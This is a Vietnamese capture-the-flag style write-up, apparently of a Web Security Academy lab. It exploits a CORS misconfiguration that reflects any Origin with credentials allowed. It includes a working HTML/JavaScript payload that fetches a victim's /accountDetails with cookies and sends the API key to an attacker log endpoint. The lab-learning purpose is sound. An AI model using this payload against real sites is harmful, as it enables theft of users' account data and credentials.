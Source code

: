 ![image](https://github.com/user-attachments/assets/01122618-4761-4948-b4eb-03e1d88f0c76)

Khi đăng nhập với wiener thì có api key:

![image](https://github.com/user-attachments/assets/3aad1be9-61fa-4919-aa91-956b4651ed0b)

![image](https://github.com/user-attachments/assets/89c50661-9216-4912-b249-703f8cd4a949)

Ở response có Access-Control-Allow-Credentials: true là một header trong CORS (Cross-Origin Resource Sharing) cho phép trình duyệt gửi và nhận cookies hoặc các thông tin xác thực (như HTTP authentication, client-side SSL certificates) giữa các domain khác nhau. Access-Control-Allow-Origin: là một HTTP response header trong CORS (Cross-Origin Resource Sharing), cho phép trình duyệt chấp nhận yêu cầu từ origin

![image](https://github.com/user-attachments/assets/0ad921e2-8b41-458b-829f-615509e9b8b7)

Tôi thêm cái Origin: https://google.com vào và nó vẫn chấp nhận, điều đó chứng tỏ chấp nhận mọi tên miền 

![image](https://github.com/user-attachments/assets/0a5ee79c-0a23-4faf-91ce-3be41f8dae30)

```
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://0aaa0023041694e88161213900b60092.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

Tạo một đối tượng XMLHttpRequest để thực hiện một request HTTP. Khai báo biến url chứa domain mục tiêu, là trang web nạn nhân. Khi request hoàn tất (xhr.readyState == XMLHttpRequest.DONE), nội dung phản hồi từ server (xhr.responseText) sẽ được gửi đến /log?key=. Gửi một yêu cầu GET đến trang mục tiêu (/accountDetails) để lấy dữ liệu tài khoản của nạn nhân. true có nghĩa là request được thực hiện bất đồng bộ
 Gửi kèm cookies của nạn nhân.

<h1>---------------------------------------------------------</h1>
<br>





